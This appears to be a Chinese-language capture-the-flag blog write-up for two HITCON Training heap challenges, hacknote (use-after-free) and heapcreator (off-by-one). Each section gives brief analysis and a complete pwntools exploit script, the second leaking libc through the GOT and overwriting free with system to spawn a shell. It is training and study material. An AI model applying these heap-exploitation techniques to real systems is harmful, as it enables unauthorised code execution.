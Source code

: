 ```yaml
---
layout:		post
title:		HITCON Training writeup
author:		wooy0ung
tags:		pwn
category: 	writeup
---
```


- 目录
{:toc #markdown-toc}

>[索引目录]  
>0x010 hacknote(uaf)  
>0x013 heapcreator(off by one)  
<!-- more -->


## 0x010 hacknote(uaf)

delete操作没有清空指针，导致的uaf。程序malloc了8 byte的fastbin存函数指针以及size
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x010-001.png)

show操作call了该指针，把chunk的函数指针劫持到magic打印出flag
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x010-002.png)

exp.py
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

s = process("./hacknote")
elf = ELF("./hacknote")

def add(con):
	s.sendlineafter("Your choice :","1")
	s.sendlineafter("size :",str(len(con)))
	s.sendlineafter("Content :",con)

def show(idx):
	s.sendlineafter("Your choice :","3")
	s.sendlineafter("Index :",str(idx))

def delete(idx):
	s.sendlineafter("Your choice :","2")
	s.sendlineafter("Index :",str(idx))

magic_addr = 0x08048986

add("A"*0x40)
add("A"*0x40)
add("A"*0x40)

delete(0)
delete(1)

add(p32(magic_addr))
show(0)
s.interactive()
```
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x010-003.png)


## 0x013 heapcreator(off by one)

指针被清空，不能利用uaf
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x013-001.png)

edit操作读取size+1 byte，造成off by one
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x013-002.png)

申请chunk0、chunk1，确保chunk1与该处malloc的size相同，off by one修改掉chunk1的size位
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x013-003.png)

free掉chunk1，再请求分配2*size-0x10的chunk，该chunk的content就会包含存放ptr、size位的结构
可以leak出got表地址
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x013-004.png)

exp.py
```
from pwn import *

s = process("./heapcreator")
elf = ELF("./heapcreator")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create(size,con):
	s.sendlineafter("Your choice :","1")
	s.sendlineafter("Size of Heap : ",str(size))
	s.sendlineafter("Content of heap:",con)

def edit(idx,con):
	s.sendlineafter("Your choice :","2")
	s.sendlineafter("Index :",str(idx))
	s.sendlineafter("Content of heap : ",con)

def show(idx):
	s.sendlineafter("Your choice :","3")
	s.sendlineafter("Index :",str(idx))

def delete(idx):
	s.sendlineafter("Your choice :","4")
	s.sendlineafter("Index :",str(idx))

free_got = elf.got["free"]

create(0x18,"AAAA")
create(0x10,"AAAA")
edit(0,"/bin/sh\x00"+"A"*0x10+"\x41")

delete(1)

create(0x30,p64(0)*4+p64(0x30)+p64(free_got))
show(1)

s.recvuntil("Content : ")
data = s.recvuntil("\n")[:-1]
free_addr = u64(data.ljust(8,"\x00"))
log.info("free_addr: %#x",free_addr)

libc_base = free_addr - libc.symbols["free"]
system_addr = libc.symbols["system"] + libc_base
log.info("system_addr: %#x",system_addr)

edit(1,p64(system_addr))
delete(0)

s.interactive()
```